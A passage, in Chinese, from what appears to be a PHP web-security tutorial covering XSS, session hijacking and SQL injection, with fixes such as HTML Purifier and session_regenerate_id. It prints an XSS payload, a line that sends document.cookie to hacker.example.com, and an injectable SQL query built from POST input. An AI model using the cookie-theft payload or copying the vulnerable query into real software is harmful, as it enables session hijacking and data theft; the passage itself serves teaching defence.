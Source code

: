 我们需要一个安装了开发人员工具的 Web 浏览器。此目的可能的工具包括带有 Firebug 的 Firefox。

## 如何做...

在 Ajax 或非 Ajax 基于 Web 的应用程序中一些常见的安全威胁包括 XSS、SQL 注入和会话劫持。我们将看到它们如何被防止。

1.  **XSS**

XSS 或跨站脚本攻击利用了通过用户输入或某种方式通过 URL 进行网站脚本添加的能力。让我们以允许用户输入其个人简介的流行 Twitter 网站为例。考虑以下输入**Bio**字段：

```php
<script>alert('XSS');</script>

```

如果 Twitter 工程师允许 HTML 执行，或者在显示它们之前没有对条目进行净化，它将提示一个带有文本**XSS**的警报框。在现实世界的情况下，它不会是一个警报框，而可能是恶意活动，比如通过已知 URL 模仿用户输入或窃取用户数据或劫持会话：

```php
ajaxReq('http://example.com/updateUser.php?passwd=xyz');

```

通常，黑客可能无法直接访问`updateUser.php`页面；但是 JavaScript 代码可以完全访问，因为它在当前会话范围内。因此，在这里，我们还必须看看我们的架构：

```php
document.write('<img src= "http://hacker.example.com/storeHackedData.php?' + document.cookie + '" />';

```

有了执行这个恶意代码的能力，黑客可能开始窃取浏览器 cookie。通过 cookie 中的会话 ID，黑客可能劫持用户的会话。

**解决方案：**

XSS 的可能解决方案包括：

+   `strip_tags()`

但是，当我们必须显示 HTML 输入时，这可能不是一个好的解决方案。

+   HTML 净化器库[`htmlpurifier.org/`](http://htmlpurifier.org/)

这个库可以净化 HTML 代码，因此对于 XSS 问题是一个更好的选择。

1.  **会话劫持**

如前所述，黑客可能窃取 cookie 数据，从而获取用户的会话 ID。当黑客通过 cookie 编辑工具设置其浏览器的会话值时，黑客将获得对其他用户会话的访问权限。当服务器或脚本被编程为对所有通信使用相同的会话 ID 时，这种威胁通常很常见。

**解决方案：**

一个可能的快速解决方案是为每个请求生成一个新的会话 ID：

`session_regenerate_id()`

1.  **SQL 注入**

当 SQL 查询根据用户输入来获取一些结果，并且如果用户输入没有得到适当的净化，它就会打开改变 SQL 查询的可能性。例如：

```php
$sql = 'SELECT COUNT(*) FROM users WHERE username=\''.$_POST['username'].'\' AND passwd=\''.$_POST['passwd'].'\'';

```
